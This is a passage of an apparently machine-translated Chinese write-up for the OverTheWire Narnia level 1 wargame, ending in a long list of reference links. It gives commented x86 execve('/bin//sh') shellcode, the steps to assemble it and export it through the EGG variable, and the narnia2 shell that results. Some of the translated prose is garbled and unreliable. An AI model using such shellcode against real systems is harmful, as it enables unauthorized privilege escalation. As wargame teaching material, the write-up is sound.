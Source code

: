 程序寻找一个环境变量**EGG** 然后如果这个变量不存在,就退出程序.如果存在, **EGG**作为函数的价值就结束了.真正的安全.


### Step 1: 使用我们的开发工具创建一个环境变量

最明显的选择是生成一个特权shell，这样我们就可以读取下一个级别的密码.

假设我们不知道我们需要用内存语言来编写这个漏洞. 我们可以试试这个:
```sh
narnia1@melinda:/narnia$ export EGG="/bin/ls"
narnia1@melinda:/narnia$ echo $EGG
/bin/ls
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault
```

没有.

我们需要创建一个十六进制命令来导出到**EGG**.在汇编中做这个我们需要的所有信息都是在附录A的论文中.这使得我们写出如下内容:

[Appendix A]: http://insecure.org/stf/smashStack.html



```sh
narnia1@melinda:/tmp$ vi shellspawn.asm
xor eax, eax        ; make eax equal to 0
push eax            ; pushes null
push 0x68732f2f     ; pushes /sh (//)
push 0x6e69622f     ; pushes /bin
mov ebx, esp        ; passes the first argument
push eax            ; empty third argument
mov edx, esp        ; passes the third argument
push eax            ; empty second argument
mov ecx, esp        ; passes the second argument
mov al, 11          ; execve system call #11
int 0x80            ; makes  an interrupt
```

编译:

```sh
narnia1@melinda:/tmp$ nasm shellspawn.asm
narnia1@melinda:/tmp$ ls
shellspawn  shellspawn.asm
narnia1@melinda:/tmp$ cat shellspawn
1�Ph//shh/bin��P��P���
```

向*EGG*输出:

```sh
narnia1@melinda:/tmp$ export EGG=$(cat shellspawn)
```
我们已经准备好利用二进制文件:

```sh
narnia1@melinda:/tmp$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
```


[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP